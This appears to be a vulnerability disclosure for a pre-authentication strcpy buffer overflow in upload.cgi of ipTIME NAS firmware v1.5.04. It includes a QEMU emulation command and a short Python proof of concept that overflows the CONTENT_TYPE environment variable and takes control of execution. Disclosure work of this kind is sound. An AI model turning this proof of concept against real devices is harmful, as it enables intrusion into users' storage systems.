 ```yaml
---
title: Buffer Overflow in upload.cgi of iptime_nas_1.5.04
date: 2025-04-25 14:17:10
tags: cve

---
```


**Affected Product**: iptime_nas

**Affected Firmware Versions**: v1.5.04

**Vulnerability Type**: Buffer Overflow

**CVE Identifier**: 





# Buffer Overflow in upload.cgi of iptime_nas_1.5.04





## The principle of the vulnerability



It can be observed that the vulnerability is caused by strcpy. Since the authentication logic is executed after the strcpy operation, this constitutes a **pre-authentication vulnerability**.
    

![image-20250425112559057](../res/image-20250425112559057.png)



![image-20250425112609126](../res/image-20250425112609126.png)





## Use QEMU for simulation

```
command = f'sudo chroot . ./qemu-arm-static -L ./lib -g 1234 ./usr/webroot/upload.cgi'
```



## poc：

```
import os


count_ones = 5000
content_type_value = 'A' * count_ones


command = f'sudo chroot . ./qemu-arm-static -L ./lib -g 1234 -E CONTENT_TYPE={content_type_value} ./usr/webroot/upload.cgi'


os.system(command)
    
```



## The result of the attack.

It can be seen that the stack space allocated by V8 is 08h.

![image-20250425112843647](../res/image-20250425112843647.png)

![409f26874d89240514a94b25cce067c2](../res/409f26874d89240514a94b25cce067c2.png)

![505bded03ba362093859cf7293904187](../res/505bded03ba362093859cf7293904187.png)

![7ddfa109889f3cb0ce68b3c4388b4a2c](../res/7ddfa109889f3cb0ce68b3c4388b4a2c.png)



Eventually, the overflow reaches 0xd0, and the execution flow of the program is controlled. If necessary, more overflow can be achieved.
